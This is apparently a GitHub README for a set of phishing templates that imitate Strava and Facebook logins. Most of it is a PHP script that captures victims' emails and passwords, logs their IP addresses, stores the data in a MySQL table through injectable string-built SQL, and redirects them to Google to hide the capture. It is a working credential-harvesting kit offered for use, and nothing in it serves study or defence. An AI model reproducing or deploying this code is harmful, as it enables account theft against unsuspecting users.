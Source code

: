 --------------------------------------------------------------------------------------------------------------------
Phishing templates.
---------------------------------------------------------------------------------------------------------------------
Strava phishing

*Facebook.php template not working with new update*

Db connection
-------------
Create a database, modify the following text in php and add it to the files.

PHP connection:
---------------------------------------------------------------------------------------------------------------------
"<?php

$servername = "localhost";

$database = "X";

$username = "X";

$password = "X";

// creamos conexion

  $conn = mysqli_connect($servername, $username, $password, $database);
  
//si estan todos los campos rellenos los insertamos en la base de datos

  if( isset($_GET["email"]) && isset($_GET["password"]) && isset($_SERVER["REQUEST_METHOD"]) ){
  
$pass = $_GET["password"];

$mail = $_GET["email"];

 if (!empty($_SERVER['HTTP_CLIENT_IP'])) {
        $ipAddress = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $ipAddress = $_SERVER['HTTP_X_FORWARDED_FOR'];
    } else {
        $ipAddress = $_SERVER['REMOTE_ADDR'];
    }

  $insert = "insert into datos values('$mail', '$pass', '(WEB)', '$ipAddress')";

//realizamos consulta para insertar los datos

  $return = mysqli_query( $conn, $insert);
  
  print_r( ( $return));
        header("Location: https://www.google.es");
        exit();
        
}

mysqli_close( $conn);

?>"



